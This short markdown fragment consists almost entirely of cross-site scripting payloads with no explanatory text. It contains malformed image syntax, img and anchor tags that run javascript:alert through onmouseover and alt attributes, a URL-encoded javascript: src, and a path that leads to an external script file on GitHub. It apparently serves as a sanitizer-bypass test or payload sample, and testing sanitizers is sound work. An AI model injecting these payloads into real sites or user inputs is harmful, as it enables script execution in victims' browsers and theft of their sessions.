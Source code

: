 ![
%0a
<a href="<img src=../../../../../../../img/onload/../../\github.com/r89shi/r89shi.github.io/blob/master/teste.js >" alt="\bjavascript:alert(1)" onmouseover="javascript:alert(1)"/>

<IMG SRC= color=javascript%3aalert(&quot;XSS&quot;) >
  
](()
